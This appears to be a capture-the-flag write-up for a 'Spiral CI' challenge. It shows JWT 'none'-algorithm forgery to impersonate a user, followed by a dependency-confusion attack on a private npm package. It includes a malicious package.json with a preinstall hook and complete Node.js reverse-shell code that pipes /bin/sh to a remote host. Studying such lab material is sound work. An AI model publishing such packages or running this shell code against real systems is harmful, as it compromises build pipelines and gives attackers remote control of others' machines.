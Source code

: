 ### Spiral CI
---
### Description

![img/1.png](img/1.png "img_1")

The application only have login, there's not much feature in this application.

![img/2.png](img/2.png "img_2")

The first thought i was doing is brute forcing the login. But I didn't found anything.

And then, I realize the index page will automatically generating a JWT cookies. So, the first thing i do if I found JWT is attempt to check is the application accepting a `none` algorithm and keep the original signature.

I am using `jwt_tool` to modify the algorithm

attempt to modify algorithm to `none` and user_id to `0`
![img/3.png](img/3.png "img_3")
![img/4.png](img/4.png "img_4")

Lets set our cookies to the result of generated JWT.

![img/5.png](img/5.png "img_5")

Great, We got a response showing that `user_id:0` didnt exist. It seems the application accepting `none` algorithm

let's check another `user_id` 

`user_id:1`

![img/6.png](img/6.png "img_6")

![img/7.png](img/7.png "img_7")

Well, the response is showing that the user is `disabled`. let's check another user

`user_id:2`

![img/8.png](img/8.png "img_8")

![img/9.png](img/9.png "img_9")

Great!, we got a valid user_id, let's download the ([projects](dl/))

nothing suspicious. But, in `calculator` they're using a private dependency.

([dl/calculator/package.json](dl/calculator/package.json))
```
{
  "name": "calculator",
  "version": "1.0.0",
  "description": "Calculator test using a JS module",
  "main": "app.js",
  "scripts": {
    "test": "node calc.test.js"
  },
  "author": "congon4tor",
  "license": "ISC",
  "dependencies": {
    "calc_gl2xiahl1g": "^1.0.0",
    "prompt-sync": "^4.2.0"
  }
}
```

I am pretty sure `calc_gl2xiahl1g` dependency is not a common name for public dependency.

The first thought i have is it was dependency confusion.

init the packages using `$ npm init`

![img/10.png](img/10.png "img_10")

add `"preinstall": "node calc.test.js"` inside `scripts` object

([n/package.json](n/package.json))
```
{
  "name": "calc_gl2xiahl1g",
  "version": "1.0.1",
  "description": "nyxsorcerer",
  "main": "calc.test.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "preinstall": "node calc.test.js"
  },
  "author": "nyxsorcerer",
  "license": "ISC"
}
```

Create `calc.test.js` so our script will be executed first when our packages is downloaded.

([n/calc.test.js](n/calc.test.js))
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

let's publish our package to npm `$ npm publish`

![img/12.png](img/12.png "img_12")

Create a listening service and hit the `Launch Test` button

![img/13.png](img/13.png "img_13")

Wait a couple seconds and our listening service got a new connection

![img/14.png](img/14.png "img_14")

Great! we got the FLAG
